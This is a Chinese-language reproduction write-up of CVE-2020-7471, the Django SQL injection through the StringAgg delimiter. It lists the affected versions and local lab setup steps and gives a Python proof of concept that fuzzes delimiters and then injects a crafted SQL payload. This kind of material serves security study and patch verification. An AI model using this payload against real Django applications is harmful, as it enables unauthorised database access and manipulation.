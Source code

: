 # （CVE-2020-7471）Django sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Django/CVE-2020-7471.html](http://book.iwonder.run/0day/Django/CVE-2020-7471.html)

## 一、漏洞简介

Django 是高水准的由 Python 编程语言驱动的一个开源 Web 应用程序框架，起源于开源社区。使用 Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020 年 2 月初，Django 官方发布安全通告公布了一个通过 StringAgg（分隔符）实现利用的潜在 SQL 注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数 contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意 SQL 语句

## 二、漏洞影响

Django 1.11.x < 1.11.28 Django 2.2.x < 2.2.10 Django 3.0.x < 3.0.3 Django 主开发分支

## 三、复现过程

### 环境安装

1.  安装 django 漏洞版本，我测试用的是

    ```
    pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple 
    ```

2.  参考 [https://www.runoob.com/postgresql/windows-install-postgresql.html](https://www.runoob.com/postgresql/windows-install-postgresql.html) 完成 postgres 数据库的安装

3.  新建数据库

    ```
    CREATE DATABASE test; 
    ```

4.  修改 sqlvul_projects/settings.py 里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为 postgres），就无需修改任何配置，可以跳过这一步

    ```
    DATABASES = {
        'default': {
            'ENGINE': 'django.db.backends.postgresql',
            'NAME': 'test',         # 数据库名称
            'USER': 'postgres',
            'PASSWORD': 'postgres', # 数据库用户密码
            'HOST': '127.0.0.1',    # 数据库地址
            'PORT': '5432',
        }
    } 
    ```

5.  通过 django 初始化数据表

    ```
    python3 manage.py migrate
    python3 manage.py makemigrations vul_app
    python3 manage.py migrate vul_app 
    ```

### poc

```
# encoding:utf-8
import os
import django
os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

# Django 版本大于等于 1.7 的时候，需要加上下面两句
if django.VERSION >= (1, 7):#自动判断版本
    django.setup()

from vul_app.models import Info
from django.contrib.postgres.aggregates import StringAgg
from django.db.models import Count

"""
postgres 预先执行的 SQL
CREATE DATABASE test;
\c test;
\d 列出当前数据库的所有表格
"""

def initdb():
    data = [('li','male'),('zhao','male'),('zhang','female')]
    for name,gender in data:
        Info.objects.get_or_create(name=name,gender=gender)

def query():
    # FUZZ delimiter
    error_c = []
    other_error_c = []
    for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
        results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
        try:
            for e in results:
                pass
        except IndexError:
            error_c.append(c)
        except:
            other_error_c.append(c)
    print(error_c)
    print(other_error_c)

def query_with_evil():
    '''
    注入点证明
    分别设置 delimiter 为 单引号 二个单引号 二个双引号
    尝试注释后面的内容 ')--
    :return:
    '''
    print("[+]正常的输出：")
    payload = '-'
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
    print("[+]注入后的的输出：")
    payload = '-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)

if __name__ == '__main__':
    print(django.VERSION) # 测试版本 3.0.2
    initdb()
    query()
    query_with_evil() 
```

然后运行 POC 脚本`CVE-2020-7471.py`就可以了

> 漏洞环境及其 poc 下载地址：[https://github.com/ianxtianxt/CVE-2020-7471](https://github.com/ianxtianxt/CVE-2020-7471)

